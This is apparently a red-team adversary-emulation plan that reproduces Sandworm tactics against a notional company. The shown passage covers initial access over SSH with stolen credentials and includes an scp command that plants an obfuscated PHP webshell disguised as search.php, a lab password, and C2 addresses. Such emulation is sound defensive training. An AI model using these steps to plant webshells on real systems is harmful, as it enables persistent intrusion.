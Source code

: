 # Scenario Overview

This scenario emulates Sandworm compromising a notional organization (Dune Inc.) with the goal of destroying data.

This scenario emulates Sandworm TTPs based on several malware specimens either used by or associated with the Sandworm actors:

1. P.A.S. Webshell
2. Exaramel (Linux and Windows variants)
3. NotPetya

---

## Step 11 - Initial Compromise

:microphone: `voice track`

Sandworm logs into patient zero via SSH using Valid Accounts for the user fherbert.

It is unknown how Sandworm obtained the credentials (perhaps an SSH password guessing attack, or zero day exploit).

Sandworm then deploys a PHP webshell for persistent access.

```
Compromised user info:

User:	fherbert

File write: /tmp/search.php, /var/www/html/search.php

System: 192.168.30.233 / caladan

C2:	10.10.0.120 connects to 192.168.30.233:443 via HTTPS (self signed cert)
```

### :biohazard: Procedures

Upload P.A.S. webshell to caladan/192.168.30.233 as `/tmp/search.php`.

```bash
# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

# Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.

scp /home/hoangtn/Desktop/VCS-sandworm/Resources/phpWebShell/obfuscated_webShell.php hoangtn8@192.168.30.233:/tmp/search.php
```

Password:

`VMT3st#123`

Move P.A.S. webshell to `/var/www/html` so it can be invoked via httpd.
